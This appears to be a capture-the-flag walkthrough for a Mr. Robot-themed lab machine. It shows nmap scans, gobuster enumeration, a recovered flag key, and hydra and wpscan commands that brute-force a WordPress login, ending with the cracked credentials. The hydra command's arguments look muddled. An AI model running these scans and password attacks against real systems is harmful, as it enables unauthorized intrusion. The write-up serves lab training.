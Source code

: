 We begin enumeration by scanning our net work with nmap
```
nmap -sV -sP 10.0.0.93/24
```
We find the target ip and do another nmap scan on the target box to find open ports:

```
nmap -sV -sC -vv -T4 10.0.0.48
```
We then enumerate with gobuster and see if there is a robots file and we find the first key:

key1: 073403c8a58a1f80d943455fb30724b9

We also find what looks to be a password list listed in the robots.txt file.

```
gobuster dir -u http://10.0.0.48/ -w=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
Continuing with enumeration we begin to look at the websites looking for user credentials and any clues.
We find a wordpress admin site and decide to use ```burpsuite``` to intercept the request. Since this is a machine based on the series mr.robot we are going to use hydra and combine the name ```Elliot``` who is the main character of the series and attempt to brute force the wordpress log in form. We find the username and password for the wp site.
```Elliot ER28-0652```
commands used: 
```
hydra -l fsocity.dic -P 123  10.0.0.48 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username"
```

```
 wpscan -t 10000 --url http://10.0.0.48 --usernames Elliot --passwords fsoc.dic
```

